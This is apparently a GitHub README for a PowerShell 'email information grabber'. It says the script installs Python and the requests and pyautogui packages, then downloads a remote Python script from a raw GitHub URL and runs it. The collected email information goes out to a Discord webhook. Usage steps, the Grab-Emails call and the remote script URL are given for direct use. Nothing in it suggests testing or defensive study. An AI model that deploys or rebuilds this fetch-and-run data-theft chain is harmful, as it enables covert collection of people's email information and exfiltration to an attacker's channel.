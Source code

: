 # Python Email Information Grabber
![](https://img.shields.io/badge/Subnet--Grab-PowerShell-blue)

This PowerShell script is designed to automate the process of downloading Python and its dependencies to run a Python script that collects email information. The Python script is specifically intended to be used with a Discord webhook for sending the collected data.

## Prerequisites
Before using this script, ensure you have the following:

- Windows operating system
- An active internet connection

## How to Use
1. Open a PowerShell terminal.
2. Save the script to a local file with a `.ps1` extension.
3. Run the script by calling the `Grab-Emails` function. Optionally, you can provide a Discord webhook URL as a parameter to the function if you want to customize it. If no webhook URL is provided, the script will use a default webhook URL.

```powershell
Grab-Emails -wbhk "YOUR DISCORD WEBHOOK HERE"
```

## Functionality
The script provides the following functionality:

1. **InstallPython**: Downloads and installs Python version 3.9.6 for Windows. If Python is already installed, it will skip this step.
2. **InstallPipPackages**: Installs the required Python packages - `requests` and `pyautogui` - using `pip3`.
3. **RunPythonScript**: Downloads the Python script from a GitHub repository and runs it using the installed Python.

## Notes
- If Python is already installed on your system, the script will not reinstall it and will proceed with the existing installation.
- If `pip` is not installed, the script will install it to ensure that the required packages are installed properly.
- The script uses a default Python script located in the GitHub repository: [Adv Email Info Grab & Upload/emailgrabber.py](https://raw.githubusercontent.com/calinux-py/Python/main/Adv%20Email%20Info%20Grab%20%26%20Upload/emailgrabber.py). If you want to use a different Python script, you can replace the URL in the `RunPythonScript` function.
- The script replaces the Discord webhook URL placeholder (`YOUR DISCORD WEBHOOK HERE`) in the Python script with the provided webhook URL, allowing you to customize the Discord channel to which the email information is sent. If no webhook URL is provided, the script will use the default placeholder.
